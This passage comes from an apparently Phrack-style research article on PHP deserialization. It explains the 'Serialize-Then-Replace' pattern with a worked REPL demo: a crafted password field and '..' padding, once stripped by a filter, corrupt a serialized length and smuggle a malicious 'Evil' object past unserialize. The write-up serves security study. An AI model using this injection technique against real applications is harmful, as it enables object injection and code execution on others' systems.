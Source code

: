 ```php
}
```
<PRE>


</PRE>
#### ------[  2.1 - The "Serialize-Then-Replace" Pattern
<PRE>

As far as I remember, the first time I saw this pattern was back in 0CTF
2016 [25]. The challenge cleverly leveraged an extra step that
applications perform on serialized strings - breaking the serialization
format, causing the embedded string to escape from its intended context,
and ultimately get interpreted as an entirely new - and malicious -
object!

And if we're talking about classic examples of this concept, Joomla!
definitely comes to mind - it manages all SESSION operations by itself,
storing serialized user states directly in the database. However, since
the PHP serialization can produce strings containing NULL bytes, Joomla!
also replaces these NULLs with special placeholders to maintain backward
compatibility, giving attackers a perfect opportunity to break the
deserialization format by flooding the username field with lots of
placeholders [26]. I guess this is exactly the original inspiration behind
that 0CTF challenge!

</PRE>

***=> Serialize, Replace, Then Pwn!***

<br>

```perl
=> [1] crafting the payload...
php > $user = 'orange';
php > $pass = ';s:8:"password";O:4:"Evil":0:{}s:8:"realname";s:5:"pwned';
php > $name = 'Orange Tsai' . str_repeat('..', 25);
php > $obj = new User($user, $pass, $name);
php > $data = serialize($obj);

|-------------------------------- [ next ] -------------------------------|

=> [2] developers attempt to block path traversal :)
php > $data = str_replace("..", "", $data);

|-------------------------------- [ next ] -------------------------------|

=> [3] the length of `realname` field has been corrupted ;)
php > print_r($data);
 O:4:"User":3:{
     s:8:"realname";s:61:"Orange Tsai";s:8:"username";[...]
                      ^^ <--- corrupted length: [61 bytes]
                        |---------------------------------|
                        |"Orange Tsai";s:8:"username";s:6:|
                        |"orange";s:8:"password";s:56:"   |
                        |---------------------------------|
     ;s:8:"password";O:4:"Evil":0:{}
     s:8:"realname";s:5:"pwned";
 }

|-------------------------------- [ next ] -------------------------------|

=> [4] We have smuggled our own *Evil* object! 
php > print_r(unserialize($data));
 User Object (
     [realname] => pwned
```